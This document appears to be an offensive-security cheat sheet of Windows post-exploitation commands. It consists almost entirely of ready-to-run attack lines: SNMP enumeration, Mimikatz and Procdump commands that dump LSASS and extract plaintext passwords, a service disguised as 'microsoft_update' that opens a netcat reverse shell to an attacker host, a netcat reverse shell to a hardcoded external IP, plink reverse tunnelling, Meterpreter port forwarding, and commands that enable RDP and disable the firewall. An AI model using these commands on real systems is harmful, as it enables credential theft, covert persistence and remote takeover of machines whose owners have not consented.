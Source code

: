 #### Enumerates SNMP

    snmpget -v 1 -c public IP
    snmpwalk -v 1 -c public IP
    snmpbulkwalk -v2c -c public -Cn0 -Cr10 IP

#### Useful Windows cmd command

    net localgroup Users
    net localgroup Administrators
    search dir/s *.doc
    system(“start cmd.exe /k $cmd”)
    sc create microsoft_update binpath=”cmd /K start c:\nc.exe -d ip-of-hacker port -e cmd.exe” start= auto error= ignore
    /c C:\nc.exe -e c:\windows\system32\cmd.exe -vv 23.92.17.103 7779
    mimikatz.exe “privilege::debug” “log” “sekurlsa::logonpasswords”
    Procdump.exe -accepteula -ma lsass.exe lsass.dmp
    mimikatz.exe “sekurlsa::minidump lsass.dmp” “log” “sekurlsa::logonpasswords”
    C:\temp\procdump.exe -accepteula -ma lsass.exe lsass.dmp 32
    C:\temp\procdump.exe -accepteula -64 -ma lsass.exe lsass.dmp 64

#### PuTTY connects the tunnel

    Forward the remote port to the destination address
    plink.exe -P 22 -l root -pw “1234” -R 445:127.0.0.1:445 IP

#### Meterpreter port forwarding

    https://www.offensive-security.com/metasploit-unleashed/portfwd/

#### Forward the remote port to the destination address

    meterpreter > portfwd add –l 3389 –p 3389 –r 172.16.194.141
    kali > rdesktop 127.0.0.1:3389

#### Enable the RDP service

    reg add “hklm\system\currentcontrolset\control\terminal server” /f /v fDenyTSConnections /t REG_DWORD /d 0
    netsh firewall set service remoteadmin enable
    netsh firewall set service remotedesktop enable

#### Close Windows Firewall

    netsh firewall set opmode disable

Meterpreter VNC/RDP

    https://www.offensive-security.com/metasploit-unleashed/enabling-remote-desktop/
    run getgui -u admin -p 1234
    run vnc -p 5043

#### Use Mimikatz

    Gets the Windows plaintext user name password
